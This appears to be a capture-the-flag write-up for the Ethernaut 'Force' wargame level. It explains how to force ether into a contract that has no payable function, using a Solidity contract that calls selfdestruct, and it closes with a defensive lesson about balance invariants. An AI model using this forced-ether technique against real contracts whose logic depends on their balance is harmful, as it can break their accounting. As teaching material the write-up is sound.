# Force

## Challenge Statement

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.


## Analysis

How do we send ether to an empty contract?

https://ethereum.stackexchange.com/questions/63987/can-a-contract-with-no-payable-function-have-ether/63988#63988

Quote:
```
Yes, a contract can have Ether balance without any payable function.

There are four ways how it's possible:

    selfdestruction. Another contract self destructs (by using the selfdestruct functionality) and sends its remaining Ether to your contract

    Target of mining (so called coinbase address). Ether rewarded from mining can't be refused.

    Ether sent to the contract before the contract exists.

    Ether sent to a contract before Solidity version 0.4, since payable was introduced only in that version
```

In our case we can create another contract, send ether to it, trigger the contract to self destruct, forcing the left over ether to the empty contract - the target.

## Solution

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Kill {

    address public owner;

    constructor() public {
        owner = msg.sender;
    }

    function sendMoney() public payable {
    }

    function destroySmartContract(address payable _to) public {
        selfdestruct(_to);
    }

}
```

## Moral

In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.